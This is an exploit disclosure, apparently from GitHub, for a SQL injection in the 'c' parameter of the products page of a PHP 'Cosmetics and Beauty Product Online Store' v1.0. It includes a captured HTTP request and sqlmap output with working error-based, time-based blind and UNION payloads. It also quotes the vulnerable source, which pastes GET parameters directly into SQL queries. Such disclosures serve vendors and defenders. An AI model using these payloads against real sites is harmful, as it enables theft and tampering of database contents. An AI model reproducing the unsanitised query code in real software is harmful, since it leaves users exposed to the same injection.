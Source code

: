 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 - SQL Injection list Product by Categogy

The c parameter on category detail on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> products.php


### Description:
> The c parameter on product list with category on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: cbpos/?p=products&c=CATEGORY_ID_VULN
2. Copy request to a txt file and run with SQLmap
Request
```
GET /cbpos/?p=products&c=eccbc87e4b5ce2fe28308fd9f2a7baf3 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

3. Result
```
GET parameter 'c' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: c (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: p=products&c=eccbc87e4b5ce2fe28308fd9f2a7baf3' AND EXTRACTVALUE(7991,CONCAT(0x5c,0x71626a7871,(SELECT (ELT(7991=7991,1))),0x7170627871)) AND 'IQJK'='IQJK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=products&c=eccbc87e4b5ce2fe28308fd9f2a7baf3' AND (SELECT 8334 FROM (SELECT(SLEEP(5)))ngZL) AND 'fKtY'='fKtY

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: p=products&c=-5011' UNION ALL SELECT NULL,CONCAT(0x71626a7871,0x416d6f47445a4778426b6d4f4744504a554d797064556a556b6e7975647077775576495658534b4e,0x7170627871),NULL,NULL,NULL,NULL-- -
---
[13:44:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.0, Apache 2.4.54
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
```
4. CODE
```
<?php 
$title = "";
$sub_title = "";
if(isset($_GET['c']) && isset($_GET['s'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $result =$cat_qry->fetch_assoc();
        $title = $result['category'];
        $cat_description = $result['description'];
    }
 $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $result =$sub_cat_qry->fetch_assoc();
        $sub_title = $result['sub_category'];
        $sub_cat_description = $result['description'];
    }
}
elseif(isset($_GET['c'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $result =$cat_qry->fetch_assoc();
        $title = $result['category'];
        $cat_description = $result['description'];
    }
}
elseif(isset($_GET['s'])){
    $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $result =$sub_cat_qry->fetch_assoc();
        $sub_title = $result['sub_category'];
        $sub_cat_description = $result['description'];
    }
}
$brands = isset($_GET['b']) ? json_decode(urldecode($_GET['b'])) : array();
?>
```

5. Successful exploit screenshots are below (with c parameter)
![Example Image](https://drive.google.com/uc?id=1j819OF-D97Ip-0HBUmteNjdq-0fXBhsg)


Video POC here:
[POC SQLi_HERE](https://drive.google.com/file/d/1oqfgM0g4mffP6lnxj0nnp8eAo9qpDsfL/view?usp=sharing)

### Impact:
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
